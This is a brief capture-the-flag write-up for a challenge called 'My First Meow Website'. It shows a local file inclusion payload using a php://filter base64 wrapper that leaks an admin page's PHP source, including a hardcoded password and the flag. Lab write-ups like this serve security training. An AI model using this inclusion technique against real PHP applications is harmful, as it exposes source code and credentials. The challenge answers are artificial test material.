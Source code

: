 # My First Meow Website

Tag: `LFI`
> Target: Login as Admin

[http://h4ck3r.quest:8400/](http://h4ck3r.quest:8400/)

## Writeup

Trivial LFI.

`http://h4ck3r.quest:8400/?page=php://filter/read=convert.base64-encode/resource=admin`

```html
<h1>Admin Panel</h1>
<form>
    <input type="text" name="username" value="admin">
    <input type="password" name="password">
    <input type="submit" value="Submit">
</form>
```
```php
<?php
$admin_account = array("username" => "admin", "password" => "kqqPFObwxU8HYo8E5QgNLhdOxvZmtPhyBCyDxCwpvAQ");
if (
    isset($_GET['username']) && isset($_GET['password']) &&
    $_GET['username'] === $admin_account['username'] && $_GET['password'] === $admin_account['password']
) {
    echo "<h1>LOGIN SUCCESS!</h1><p>".getenv('FLAG')."</p>";
}

?>
```

## Flag

`FLAG{ezzzz_lfi}`
